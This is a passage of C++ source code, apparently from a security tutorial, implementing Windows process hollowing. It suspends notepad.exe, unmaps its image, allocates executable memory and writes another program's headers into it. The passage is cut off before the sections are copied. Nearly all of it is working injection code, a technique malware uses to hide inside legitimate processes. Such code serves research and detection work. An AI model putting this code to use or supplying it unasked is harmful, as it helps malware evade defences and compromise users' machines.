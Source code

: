 ```cpp
} BASE_RELOCATION_BLOCK, *PBASE_RELOCATION_BLOCK;

typedef struct BASE_RELOCATION_ENTRY {
	USHORT Offset : 12;
	USHORT Type : 4;
} BASE_RELOCATION_ENTRY, *PBASE_RELOCATION_ENTRY;

int main()
{
	// create destination process - this is the process to be hollowed out
	LPSTARTUPINFOA si = new STARTUPINFOA();
	LPPROCESS_INFORMATION pi = new PROCESS_INFORMATION();
	PROCESS_BASIC_INFORMATION *pbi = new PROCESS_BASIC_INFORMATION();
	DWORD returnLenght = 0;
	CreateProcessA(NULL, (LPSTR)"c:\\windows\\syswow64\\notepad.exe", NULL, NULL, TRUE, CREATE_SUSPENDED, NULL, NULL, si, pi);
	HANDLE destProcess = pi->hProcess;

	// get destination imageBase offset address from the PEB
	NtQueryInformationProcess(destProcess, ProcessBasicInformation, pbi, sizeof(PROCESS_BASIC_INFORMATION), &returnLenght);
	DWORD pebImageBaseOffset = (DWORD)pbi->PebBaseAddress + 8; 
	
	// get destination imageBaseAddress
	LPVOID destImageBase = 0;
	SIZE_T bytesRead = NULL;
	ReadProcessMemory(destProcess, (LPCVOID)pebImageBaseOffset, &destImageBase, 4, &bytesRead);

	// read source file - this is the file that will be executed inside the hollowed process
	HANDLE sourceFile = CreateFileA("C:\\temp\\regshot.exe", GENERIC_READ,	NULL, NULL, OPEN_ALWAYS, NULL, NULL);
	DWORD sourceFileSize = GetFileSize(sourceFile, NULL);
	LPDWORD fileBytesRead = 0;
	LPVOID sourceFileBytesBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sourceFileSize);
	ReadFile(sourceFile, sourceFileBytesBuffer, sourceFileSize, NULL, NULL);
	
	// get source image size
	PIMAGE_DOS_HEADER sourceImageDosHeaders = (PIMAGE_DOS_HEADER)sourceFileBytesBuffer;
	PIMAGE_NT_HEADERS sourceImageNTHeaders = (PIMAGE_NT_HEADERS)((DWORD)sourceFileBytesBuffer + sourceImageDosHeaders->e_lfanew);
	SIZE_T sourceImageSize = sourceImageNTHeaders->OptionalHeader.SizeOfImage;

	// carve out the destination image
	NtUnmapViewOfSection myNtUnmapViewOfSection = (NtUnmapViewOfSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtUnmapViewOfSection"));
	myNtUnmapViewOfSection(destProcess, destImageBase);

	// allocate new memory in destination image for the source image
	LPVOID newDestImageBase = VirtualAllocEx(destProcess, destImageBase, sourceImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	destImageBase = newDestImageBase;

	// get delta between sourceImageBaseAddress and destinationImageBaseAddress
	DWORD deltaImageBase = (DWORD)destImageBase - sourceImageNTHeaders->OptionalHeader.ImageBase;

	// set sourceImageBase to destImageBase and copy the source Image headers to the destination image
	sourceImageNTHeaders->OptionalHeader.ImageBase = (DWORD)destImageBase;
	WriteProcessMemory(destProcess, newDestImageBase, sourceFileBytesBuffer, sourceImageNTHeaders->OptionalHeader.SizeOfHeaders, NULL);

	// get pointer to first source image section
```